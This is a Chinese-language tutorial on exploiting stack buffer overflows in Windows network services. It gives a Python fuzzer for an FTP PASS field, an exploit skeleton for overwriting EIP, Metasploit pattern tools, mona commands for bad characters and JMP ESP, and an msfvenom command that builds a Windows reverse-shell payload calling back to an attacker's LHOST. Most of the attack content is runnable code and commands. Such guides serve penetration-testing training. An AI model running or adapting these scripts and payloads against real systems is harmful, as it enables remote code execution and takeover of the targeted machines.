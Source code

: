 # 缓冲区溢出流程

### 一、**Immunity Debugger**

- 最好以管理员的身份运行Innunity debugger

- 通常有两种方法可以使用 Immunity Debugger 来调试应用程序：

1. 确保应用程序正在运行，打开 Immunity Debugger，然后使用`File -> Attach`调试器攻击正在运行的进程。
2. 打开 Immunity Debugger，然后使用它`File -> Open`来运行应用程序。

- 在 Immunity Debugger 中附加到应用程序或打开应用程序时，应用程序将被暂停。单击“运行”按钮或按 F9。

### 二、**mona**

Mona 是一个强大的 Immunity Debugger 插件，可以更轻松地利用缓出。下载：[:download:`mona.py <../_static/files/mona.py>`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)

最新版本可以在这里下载：[https](https://github.com/corelan/mona) : [//github.com/corelan/mona](https://github.com/corelan/mona)

这里找到：[https](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/) : [//www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

将 mona.py 文件复制到 Immunity Debugger 的 PyCommands 目录(通常位于C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands）。

在 Immunity Debugger 中，键入以下内容以设置 mona 的工作目录。

`!mona config -set workingfolder c:\mona\%p`

### 三、**模糊测试**

- 可以修改以下 Python 脚本，它将发送越来越长的缓冲区字符串，最终使应用程序崩溃。

```python
import socket, time, sys

ip = "MACHINE_IP" //目标IP
port = 21  
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n")
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)

```

- 检查 EIP 寄存器是否已被 A (\x41) 覆盖，并记下使崩溃发送的字节长度

### 四、**控制EIP**

以下python漏洞利用代码可用于缓冲区溢出漏洞利用的其余部分：

```python
import socket

ip = "10.0.0.1"   //目标IP
port = 21

prefix = ""
offset = 0  //EIP偏移量
overflow = "A" * offset   //无意义的填充物
retn = ""     //ESP跳板
padding = ""  //nop缓冲区(至少/x90 *16)
payload = ""  //恶意代码
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")

```

#### 寻找EIP

- 使用导致崩溃的缓冲区长度，生成一个唯一的缓冲区，以便我们可以确定覆盖 EIP 寄存器的模式中的偏移量，以及其他寄存器指向的模式中的偏移量。创建一个比崩溃缓冲区大 400 字节的模式，以便我们可以确定我们的 shellcode 是否可以立即适应。

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600    //应该将600修改为比缓冲区崩溃长度大400字节的数字
```

- 使用 mona 的 findmsp 命令，并将距离参数设置为比缓冲区崩溃大400的数字，确定EIP偏移量

```
!mona findmsp -distance 600   //600应该更改
```

- 或者在攻击机机器里使用下面的命令来确定EIP偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134   //后面的数字是EIP的值
```

### **五、查找坏字符**

- 使用 mona 生成字节数组，并默认排除空字节 (\x00)。请注意生成的 bytearray.bin 文件的位置

`!mona bytearray -b "\x00"`

- 现在生成一串与字节数组相同的坏字符。以下 python 脚本可用于生成从 \x01 到 \xff 的坏字符字符串：

```python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()

```

- 使用 mona compare 命令引用你生成的字节数组，以及 ESP 指向的地址：

```
!mona compare -f C:\mona\appname\bytearray.bin -a <esp地址>  
```

- 使用Ctrl + F4组合键可以查看之前找到的坏字符
- 注意：应该逐个排除坏字符，因为前一个坏字符可能会影响到后一个，导致好的字符被误判为坏字符

### **六、寻找跳板(ESP)**

- 使用以下指令寻找ESP，并且确保不会出现坏字符：

`!mona jmp -r esp -cpb " "  //引号内的是坏字符`

- 会显示多个ESP结果，都行，记下地址，写到代码中时地址要反过来写，因为进出顺序不同

### **七、生成有效载荷**

- 使用 msfvenom 生成反向 shell 负载，确保排除之前发现的相同错误字符：

```
msfvenom -p windows/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f py -v payload

-p 载荷类型
LHOST 本机地址
LPORT
-b 坏字符
-f 编译的语言
-v 载荷的名称
```

- 注意：生成的载荷是字节类型的，放入python3脚本的时候可能需要转换成字符串类型

### **八、预先准备 NOP**

- 如果使用了编码器（如果存在错误字符的可能性很大，请记住在有效负载之前至少添加 16 个 NOP (\x90)。